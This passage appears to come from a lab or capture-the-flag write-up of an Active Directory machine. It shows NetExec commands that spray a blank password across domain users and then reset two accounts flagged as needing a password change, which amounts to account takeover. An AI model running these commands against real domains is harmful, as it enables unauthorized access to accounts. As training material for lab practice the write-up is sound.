 ![f924ae2b393eb6f651a630d163e9f028.png](/resources/f924ae2b393eb6f651a630d163e9f028.png)

### Discovery of accounts with STATUS_PASSWORD_MUST_CHANGE
I did not find any interesting indicator of what the default password might be so I use blank password to test it out which is working and reveals that there are 2 users (Elliot.Yates and Thomas.Powell) that has not changed their password yet by chaning their password and taking control of their accounts.
```
nxc smb dc.sendai.vl -u users -p '' --continue-on-success 
```
![e6e0923effbb61d5fa2398a26de70130.png](/resources/e6e0923effbb61d5fa2398a26de70130.png)

I use the "change-password" module from NetExec to change their password which I have to use it with the latest version from the GitHub since this module did not make it to Kali Linux's Netexec yet.
```
uv run nxc smb dc.sendai.vl -u 'Elliot.Yates' -p '' -M change-password -o NEWPASS=Password123
uv run nxc smb dc.sendai.vl -u 'Thomas.Powell' -p '' -M change-password -o NEWPASS=Password123
```